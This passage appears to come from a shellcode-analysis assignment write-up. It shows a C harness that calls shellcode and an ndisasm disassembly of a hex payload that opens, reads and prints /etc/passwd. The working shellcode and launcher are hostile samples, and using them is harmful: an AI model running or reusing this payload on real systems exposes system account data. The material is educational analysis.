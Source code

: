 ```c

    printf("Shellcode Length:  %d\n", strlen(shellcode));

    // Pollutes all registers ensuring that the shellcode runs in any circumstance.

    __asm__ ("movl $0xffffffff, %eax\n\t"
            "movl %eax, %ebx\n\t"
            "movl %eax, %ecx\n\t"
            "movl %eax, %edx\n\t"
            "movl %eax, %esi\n\t"
            "movl %eax, %edi\n\t"
            "movl %eax, %ebp\n\t"

            // Calling the shellcode
            "call shellcode");

}
```

Let's use `ndisasm` on this shellcode like we did last assignment to get some assembly out of it. 

```terminal_session
root@kali:~# echo -ne "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd\x80" | ndisasm -u -
```

Output assembly:
```nasm
xor ecx,ecx 
mul ecx 
mov al,0x5 
push ecx 
push dword 0x64777373
push dword 0x61702f63
push dword 0x74652f2f
mov ebx,esp 
int 0x80 
xchg eax,ebx 
xchg eax,ecx 
mov al,0x3 
xor edx,edx 
mov dx,0xfff 
inc edx 
int 0x80 
xchg eax,edx 
xor eax,eax 
mov al,0x4 
mov bl,0x1 
int 0x80 
xchg eax,ebx 
int 0x80 
```
